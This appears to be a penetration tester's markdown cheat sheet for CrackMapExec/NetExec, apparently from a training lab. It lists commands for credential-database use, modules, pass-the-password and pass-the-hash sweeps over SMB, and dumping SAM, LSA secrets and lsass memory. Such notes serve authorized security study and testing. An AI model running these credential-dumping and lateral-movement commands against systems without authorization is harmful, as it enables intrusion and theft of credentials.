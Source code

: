 -- -
This is now called #netexec, you can use these exact same commands, just change `crackmapexec` to `netexec`. 
### Interact w/ db
crackmapexec hosts a database where it keeps all the credentials and what not that you have gathered on an engagement. 
```bash
# open db
cmedb

# show hosts
hosts

# dump all the credentials you have gathered
creds
```
### Using modules
```bash
# List available modules for the service
crackmapexec <service> -L
crackmapexec smb -L

# use a module
crackmapexec smb <ip> -u <username> -p <password> -M <module>
```
### Pass-The-Password
Sweep network with valid set of #userpass credentials to see what kind of access we can get on various machines/services
```bash
# Pass-The-Password against SMB
crackmapexec smb <cidr range> -d <domain> -u <username> -p <password>
crackmapexec smb 192.168.138.0/24 -d MARVEL.local -u fcastle -p Password1
```

^bd85ee

### Pass-The-Hash
Sweep network with valid set of #userhash credentials to see what kind of access we can get on various machines/services. 
```bash
# Note: requires full NTLM hash
# This tests local-authentication versus AD auth

# see where you can log into
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth

# see where you can log into and dump the SAM if local admin
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --sam

# Enumerate shares
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --shares

# dump lsa secrets
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --lsa

# Dump secrets in memory, if available
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth -M lsassy
```

^116e4a

